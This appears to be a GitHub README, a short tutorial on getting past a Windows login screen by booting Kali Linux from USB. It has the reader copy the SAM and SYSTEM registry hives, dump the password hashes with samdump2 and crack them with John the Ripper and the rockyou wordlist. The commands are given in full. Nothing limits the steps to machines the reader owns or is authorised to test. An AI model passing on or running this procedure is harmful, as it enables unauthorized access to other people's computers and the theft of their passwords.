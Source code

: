 Bypass windows login screen using Kali linux live bootable media/ using JOHN

Lets start:-

Create a kali linux live usb bootable media using Rufus.

Then insert the usb and restaqrt the system.

Enter the boot mnenu using F10 / F8 / F12 / F9 whatever your system has.

then staret the kali live system (First option).

once you boot into kali then open the drives containing windows file(C:) shown on the desktop.

open WINDOWS folder.

Open SYSTEM32 folder.

Open CONFIG folder.

search and COPY both SAM file & SYSTEM file to the desktop.

now run a terminal on desktop and type this command to dump the hashes for the files :-

samdump2 SYSTEM SAM >hash.txt       

john -w hash.txt --format=NT          (to crack the hash file using the default list)

locate rockyou                        (to locate the default rockyou wordlist)

sudo gunzip /usr/share/wordlists/rockyou.txt.gz           (to unzip the rockyou wordlist file"write the file path which is displayed on your system")

john -w="/usr/share/wordlists/rockyou.txt" hash.txt -format="NT"    (enter the full path of rockyou && cracking the password with this command.)












____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________

